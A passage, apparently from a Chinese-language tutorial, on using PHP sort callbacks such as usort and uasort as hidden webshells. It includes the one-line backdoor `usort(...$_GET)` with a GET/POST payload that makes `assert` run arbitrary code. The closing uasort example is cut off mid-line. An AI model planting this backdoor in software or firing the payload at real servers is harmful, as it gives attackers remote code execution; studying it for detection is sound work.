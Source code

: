 ```php
<?php 
    usort(...$_GET);
?>

payload: 1.php?1[0]=0&1[1]=eval($_POST['x'])&2=assert
POST传参: x=phpinfo();
```

`usort`的参数通过GET传参，第一个参数也就是`$_GET[0]`，随便传入一个数字即可。第二个参数也就是`$_GET[1]`是我们要调用的函数名称，这里采用的是`assert`函数。

执行结果：

![](/images/20200819235236.png)

### uasort()

这个跟上一个差不多，区别不是很大。此函数对数组排序并保持索引和单元之间的关联。也就是说你这个排完序之后呢，它原来对应的索引也会相应改变，类似于“绑定”。

```php
uasort( array &$array, callable $value_compare_func) : bool
```

#### 参数

- array：输入的数组
- value_compare_func：用户自定义的函数

这里用的仍然官方例子（比较好理解）

```php
<?php
// Comparison function
function cmp($a, $b) {
    if ($a == $b) {
        return 0;
    }
    return ($a < $b) ? -1 : 1;
}

// Array to be sorted
$array = array('a' => 4, 'b' => 8, 'c' => -1, 'd' => -9, 'e' => 2, 'f' => 5, 'g' => 3, 'h' => -4);
print_r($array);

// Sort and print the resulting array
uasort($array, 'cmp');
print
?>
       
```